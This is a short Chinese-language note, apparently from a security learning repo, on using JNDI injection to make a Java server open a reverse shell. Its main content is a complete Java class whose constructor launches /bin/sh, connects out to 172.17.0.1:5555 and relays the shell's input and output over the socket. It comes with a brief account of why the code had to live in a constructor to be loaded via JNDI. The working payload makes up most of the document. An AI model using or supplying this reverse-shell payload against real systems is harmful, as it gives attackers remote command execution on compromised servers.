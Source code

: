 1. 把socket反弹shell的代码加上main函数然后尝试是否可以反弹Shell，若可以说明代码有效；
2. 把第一步的代码去掉main函数然后编译，用JNDI注入来反弹Shell；

# 无mian函数的（不用Runtime）的Java Socket反弹Shell

```Java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class JavaShell_WithoutMain {

  public JavaShell_WithoutMain() throws Exception {
    String host="172.17.0.1";
    int port=5555;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

这里有个点卡了很久，编译一直不通过，不知道怎么写这个java代码才可以通过编译；

搜索一番（关键词：java socket reverse shell）之后发现只需要写一个构造函数`JavaShell_WithoutMain()`就好了 此处参考：https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0

## 反弹shell
